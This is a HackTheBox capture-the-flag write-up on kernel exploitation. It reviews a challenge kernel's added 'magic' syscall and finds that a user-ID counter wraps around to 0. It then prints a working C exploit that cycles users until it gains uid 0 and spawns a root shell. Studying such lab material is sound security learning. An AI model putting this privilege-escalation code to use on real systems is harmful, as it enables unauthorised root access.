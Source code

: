 ```yaml
---
title: Kernel Adventures Part II
description: Solution for Kernel Adventures II
date: 2024-04-08 02:45:01-0700
image: https://i.pinimg.com/originals/d8/73/c9/d873c94e242bafe6bbcfa83cde3b8b42.jpg
categories:
    - HackTheBox
tags:
    - pwn
    - htb
    - medium
---
```


## Setup

WORK IN PROGRESS...

This is the solution for HTB's `Kernel Adventures: Part II`, and in the process, we can learn and get an introduction to kernel exploitation.

After you download the challenge, just follow the instructions in the README to get the required version of the linux kernel installed so we can take a look in our code editor.
However, you may get an error during the `git apply` command.
To resolve these, you first need to run `git checkout ff1ffd71d5f0612cf194f5705c671d6b64bf5f91` to revert the repo to the commit in which the vulnerability was introduced.
Now we have the code for the vulnerable kernel, and the author provided the image meant for the challenge.

## Goals

So I will take 2 approaches here.
The first is to do a code review to find the vuln by hand (eyes).
Then I want to build a fuzzer to automate the finding.

## Finding Vulnerability

So my first approach here is to look at the `patch.diff` file to see what was changed.
There was a folder `magic/` that was added.
Also, there is a new syscall `magic` added to `arch/x86/entry/syscalls/syscall_64.tbl`
However, the "meat" of the challenge is in `magic/magic.c`, which fleshes out the syscall.

Lets walkthrough what the new syscall does.
First it will initialize itself via the `do_init()` function, but only if the `initialized` value is not 0.

```c
void do_init() {
    char username[64] = "root";
    char password[64] = "password";
    struct MagicUser* root;

    spin_lock(&magic_lock);
    root = kzalloc(sizeof(struct MagicUser), GFP_KERNEL);
    root->uid.val = 0;
    memcpy(root->username, username, sizeof(username));
    memcpy(root->password, password, sizeof(password));
    root->children = kzalloc(sizeof(struct MagicUser*) * CHILDLIST_SIZE, GFP_KERNEL);
    magic_users[0] = root;
    nextId = 1;
    initialized = 1;
    spin_unlock(&magic_lock);
}
```

This function sets the default username and password to `root:password`.
It also defines a `MagicUser*` called root.
Then `kzalloc` is called and the resulting pointer is assigned to `root`.
From my understanding, `kzalloc` will allocate a chunk and initialize its memory to zero.
An important thing to note here is that this allocation will need to be freed at some point.
Anyways, this function pretty much sets the first user to be root, then creates an allocation for the next user, who will be the child of this root user.

Now lets look at the individual actions we can get this syscall to perform.
Lets start with adding a user with `long do_add(char* username, char* password)`.
First it checks if the user that will be added exists.
This is done by just iterating over the list of users, and checking the username against the supplied username.
Then an empty entry in the user list is found, which is where the new user will be added.
This works similar to the find function, where the user list is iterated over until a null entry is found, and that index is returned.
Then a search for the current user is conducted, but this time by uuid.
Again, this is just a simple for loop that compares uid, nothing special.
Then it will locate an empty slot in the current users child list.
Then another call to `kzalloc` for the new user.
And the next user is given the `nextId` value, which will be +1 from the previous.
We should note, that in no other function is there something to decrement the `nextId` value, meaning it will always increase.
Maybe we could just create new users until we overflow the `uid` value to be 0 again?
Seems possible, cuz `nextId` is an unsigned short (2 bytes), so thats a total of `0xFFFF` values.
Once we obtain that UUID, it would seem that some other values are changed, and then we obtain the privileges of the user with that UUID.
So if we get UUID 0, then we get the privileges of the root user.
Here is my exploit.
After compiling, I gzipped it, then copied it over to the victim machine with base64 encoding.

```c
#include <sys/syscall.h>
#include <stdio.h>
#include <unistd.h>

#define MAGIC_SYS 449

int main() {
    
    long uuid = 1;
    for (int i = 0; i < 0xFFFFFFFF; i++) {
        // Create the user
        uuid = syscall(MAGIC_SYS, 0, "bob", "abc123");
        if (uuid == 0) {
            syscall(MAGIC_SYS, 3, "bob", "abc123");
            char *shell = "/bin/sh";
            char *args[] = {shell, NULL};
            execve(shell, args, NULL);
            return 0;
        }
        // Delete the user
        syscall(MAGIC_SYS, 2, "bob", "abc123");
    }
    return 0;
}
```

```bash
musl-gcc -static -march=x86-64 -Os expl.c -o expl
```